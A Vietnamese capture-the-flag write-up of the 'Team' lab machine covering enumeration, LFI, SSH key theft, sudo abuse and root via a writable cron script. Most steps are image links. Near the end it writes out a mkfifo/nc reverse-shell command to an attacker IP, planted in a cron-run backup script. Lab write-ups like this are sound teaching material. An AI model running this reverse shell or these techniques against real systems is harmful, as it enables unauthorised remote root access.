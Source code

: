 ﻿Port scan:

![enter image description here](https://imgur.com/4EocEoK.png)

![enter image description here](https://imgur.com/tlOje7Q.png)

Truy cập web app, chỉ có default page của Ubuntu:

![enter image description here](https://imgur.com/R2ng3LV.png)

URL Brute-force cũng không đem lại kết quả khả quan. Tuy nhiên, khi xem page source lại có manh mối ở thẻ title:

![enter image description here](https://imgur.com/i5CNeMh.png)

Thêm host team.thm vào /etc/hosts.
Giao diện của team.thm:

![enter image description here](https://imgur.com/MJllFxE.png)

Có vẻ như không có gì để khai thác. Ta sẽ url brute-force:

![enter image description here](https://imgur.com/yh8Q0Uq.png)

/images không có gì đáng chú ý.
/scripts/ và /assets/ bị 403.
/robots.txt có nội dung có thể là 1 user:

![enter image description here](https://imgur.com/YmCIGir.png)

Tiếp tục URL Brute-force vào /scripts/

![enter image description here](https://imgur.com/mIMqV08.png)

Tìm thấy file script.txt (status 200) có vẻ hay. Nội dung:

![enter image description here](https://imgur.com/7qjngkB.png)

Từ đây ta có thông tin về việc tồn tại bản cũ của file script này ở trong folder hiện tại. Thử tìm kiếm với các tên `script.sh, script.log, script.old,...` và may mắn tìm được file script.old. Tải về và đọc nội dung file script.old:

![enter image description here](https://imgur.com/1a3Ttth.png)

Ta đã có được FTP credentials, dùng nó để truy cập vào FTP server.

![enter image description here](https://imgur.com/RTaVUGb.png)

Kéo file New_site.txt từ folder workshare về local và đọc nội dung:

![enter image description here](https://imgur.com/11w9eDE.png)

Theo mô tả trong file New_site.txt, thêm dev.team.thm vào /etc/hosts.
Truy cập vào dev.team.thm:

![enter image description here](https://imgur.com/GgqjHCQ.png)

Click vào link và được redirect đến:

![enter image description here](https://imgur.com/cFmh2vM.png)

Tại đây có vẻ tồn tại lỗ hổng LFI. Thử đọc /etc/passwd:

![enter image description here](https://imgur.com/dSFhzwf.png)

Xác nhận có LFI và thu thập được 3 user đáng chú ý là dale, gyles, ftpuser.
File New_site.txt cũng đề cập đến việc có thể tồn tại file id_rsa ở trong thư mục config liên quan. Lợi dụng LFI để truy cập vào /home/dale/.ssh/id_rsa nhưng không có gì -> loại. Thử truy cập vào /etc/ssh/sshd_config -> đọc được 1 file có chứa ssh private key của dale:

![enter image description here](https://imgur.com/vZxJ6ZJ.png)

Copy về local, loại bỏ dấu # và space, chỉnh sửa thành 1 file id_rsa hoàn chỉnh. chmod 600 và dùng file id_rsa này để ssh vào server.

![enter image description here](https://imgur.com/spQB1kk.png)

SSH vào server với user dale, lấy user flag ở /home/dale/user.txt:

![enter image description here](https://imgur.com/dheW0NT.png)

Check sudo right:

![enter image description here](https://imgur.com/M4VkNG9.png)

User dale có quyền chạy sudo nopasswd quyền gyles với lệnh `/home/gyles/admin_checks`. Vì ở target không có gói `binutils` nên ta dùng scp để download file admin_checks về local và dùng `strings` để phân tích:

![enter image description here](https://imgur.com/HLZPzfY.png)

Ta sẽ inject giá trị `/bin/bash` vào biến error để spawn shell của gyles khi chạy đến biến error.

![enter image description here](https://imgur.com/tiiBrNI.png)

Thành công leo quyền của gyles. Từ đây, ta thấy user gyles nằm trong group admin. Đầu tiên, dùng python để spawn pty. Sau đó, tìm các file, dir liên quan đến group admin:

![enter image description here](https://imgur.com/JW4zKYi.png)

Folder /opt/admin_stuff có file script.sh có thể đọc được (owner: root, mode 744).

![enter image description here](https://imgur.com/h3f4KhJ.png)

![enter image description here](https://imgur.com/RCfZD8M.png)

Nội dung nói rằng đã set cronjob chạy script trên mỗi phút 1 lần và gọi đến file /usr/local/bin/main_backup.sh. File /usr/local/bin/main_backup.sh (owner:  root, group admin, mode 775) cho phép group admin được chỉnh sửa nội dung, mà user gyles hiện tại ta đang nắm quyền nằm trong group admin.

![enter image description here](https://imgur.com/FV97A2V.png)

Dùng lệnh `echo rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.21.36 4445 >/tmp/f > /usr/local/bin/main_backup.sh` và mở listener ở local. Đợi khi script được chạy, ở local sẽ nhận được root shell. Lấy root flag ở /root/root.txt:

![enter image description here](https://imgur.com/7sXn98T.png)

Happy Hacking!
